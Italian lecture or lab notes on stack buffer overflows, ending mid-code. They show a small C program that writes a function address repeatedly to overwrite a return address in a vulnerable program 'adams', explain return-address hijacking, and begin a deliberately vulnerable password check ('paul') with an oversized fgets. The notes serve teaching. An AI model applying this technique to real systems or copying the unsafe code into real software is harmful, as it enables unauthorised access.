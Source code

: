 Dove `   0x5659329c <+43>:	call   0x5659321b <accedi>`
**è l'indirizzo di `accedi`** e di conseguenza anche le altre funzioni.
Quella è una **call**, cioè è il punto dove viene chiamata la funzione accedi.

L'idea iniziale, quindi `0x5659321b` è il punto da dove comincia `accedi`. Anche facendo un `disass accedi` vedo che comincia da quel punto.


**PROBLEMA**: non posso a mettere a meno `0x5659321b` ma posso usare uno **script**.

Guardiamo il programma `ret.c`

```c
#include <stdio.h>
int main(int argc, char** argv){
	int i=0;
	char buf[36];
	for (i=0;i<=32;i+=4)
		*(long *) &buf[i] = 0x5659321b; //da sostituire con l'indirizzo della call alla funzione accedi
	
	puts(buf);
}
```

**COSA FA?**
Scrive ripetutamente sul buffer questi quattro byte.

Fa un pò di casting per farlo leggere al compilatore. 
- `i+4` --> di 4 in 4 fino a 32byte
- `(long *)` : casta `&buff[i]` in `long *`, cioè tratta `&`, cioè il riferimento a `buff[i]` come un puntatore a un long
- `*(long *)` : dereferenzia questo puntatore, quindi prendigli il valore


Questo lo possiamo compilare ed eseguire.
L'output possiamo passarlo a un file `./ret > ret.out`.

Se apriamo quel file con un editor esadecimale `ghex ret.out` vediamo che è semplicemente quella sequenza di 4 byte ripetuta. Little endian, quindi siamo al contrario

--> Se ora faccio `./ret | ./adams` : dò lo stdout allo stdin di adams.




**Se** l’*indirizzo* di *ritorno* *IP* fosse **sovrascritto** **con** **qualcosa** di 
diverso da 0x41 (ad **esempio**, un **indirizzo** **valido** che punta ad una locazione di memoria che contiene codice
eseguibile), al termine della funzione, **il processore salterebbe al nuovo indirizzo indicato** e non a quello della funzione chiamante, con la conseguenze di eseguire il codice trovato.
--> Tecnica di BYTECODE INJECTION

#### Esempio 3: paul
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void main(int argc, char **argv)
{
	int autenticato = 0;
	char password[20];
	
	printf("Immetti la password: ");
	fgets(password,100,stdin);
	if (strcmp(password, "apritisesamo\n") == 0) {
		printf("Password corretta!\n");
		autenticato = 1;
	}
	if (autenticato) {
```